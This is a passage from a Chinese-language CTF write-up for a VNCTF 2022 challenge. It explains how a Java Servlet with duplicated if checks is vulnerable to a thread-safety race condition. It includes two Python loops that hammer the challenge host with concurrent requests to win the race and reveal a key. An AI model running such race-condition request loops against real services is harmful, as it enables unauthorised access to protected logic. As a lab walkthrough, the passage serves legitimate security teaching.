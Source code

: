 但是这两个if判断条件居然是一样的

当两个或多个线程同时访问同一个Servlet时，可能会发生多个线程同时访问同一资源的情况，数据可能会变得不一致。所以在用Servlet构建的Web应用时如果不注意线程安全的问题，会使所写的Servlet程序有难以发现的错误

```
public static boolean check(String checkStr) {
    return "vnctf2022".equals(checkStr);
}
```

这样我们就要通过条件竞争的方式绕过第一个if去请求第二个if

```
import requests

host = "http://8e5b3b73-2421-41a2-9c43-afef7ad2d4de.node4.buuoj.cn:81/"
while True:
    r = requests.get(host + "evi1?name=asdqwer")
    r.encoding = "utf-8"
    if r.text.find("The Key is") != -1:
        print(r.text)
    if (r.text.replace(" ", "") != ""):
        print(r.text)

```

```
import requests

host = "http://8e5b3b73-2421-41a2-9c43-afef7ad2d4de.node4.buuoj.cn:81/"
while True:
    r = requests.get(host + "evi1?name=vnctf2022")
    r.encoding = "utf-8"
    if r.text.find("The Key is") != -1:
        print(r.text)

```

![image-20220216133604013](images/7.png)

进入if后![image-20220216112311500](images/8.png)
